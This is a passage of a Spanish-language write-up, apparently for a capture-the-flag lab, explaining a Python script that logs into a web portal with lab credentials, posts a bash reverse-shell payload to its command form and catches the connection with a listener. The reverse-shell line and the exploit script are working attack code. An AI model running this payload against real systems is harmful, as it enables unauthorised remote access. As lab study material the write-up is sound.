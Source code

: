 Luego, más utilidades como el control + c y funciones para animación y sucesos completados:

```py
def controlc(sig, frame):
    print(Colors['red']+"\n\n[!] saliendo...\n"+Colors['reset'])
    sys.exit(1)

signal.signal(signal.SIGINT, controlc)

def wait():
    for i in range(3):
        print(Colors['purple'] + ".", end='')
        time.sleep(0.8)
    print(Colors['reset'] + '\n')
    return

def success():
    print(Colors['green'] + "\t¡Completado!"+ Colors['reset'])
    sleep(1)
```

Tenemos entonces, la función de inicio de sesión:

```py
def login():

    post_data= {
        'username': 'R1ckRul3s',
        'password': 'Wubbalubbadubdub',
        'sub':'Login'
    }
    print(Colors['purple']+"\nIniciando sesión en la página"+Colors['reset'],end='')
    wait()
    r = s.post(victim,data=post_data)
    success()
```

Luego, la función que realiza la conexión reversa:

```py
def shell():
    payload = f'bash -c "bash -i >& /dev/tcp/{sys.argv[1]}/1234 0>&1"'

    post_data={
        'command': payload,
        'sub' : 'Execute'
    }
    r = s.post(victim_portal,data=post_data)
```
Finalmente, el main, donde llamamos las funciones y preparemos el listener, además de realizar la escalada de privilegios:

```py
if __name__ == '__main__':
    login()
    print(Colors['purple']+"\nEstableciendo la conexión reversa"+Colors['reset'],end='')
    wait()
    try:
        threading.Thread(target=shell, args=()).start()
    except Exception as e:
        log.error(str(e))
    
    shell = listen(1234, timeout=15).wait_for_connection()

    if shell.sock is None:
        print(Colors['red'] + "\nNo se ha obtenido ninguna conexión :(" + Colors['reset'])
        sleep(1)
        exiting()
```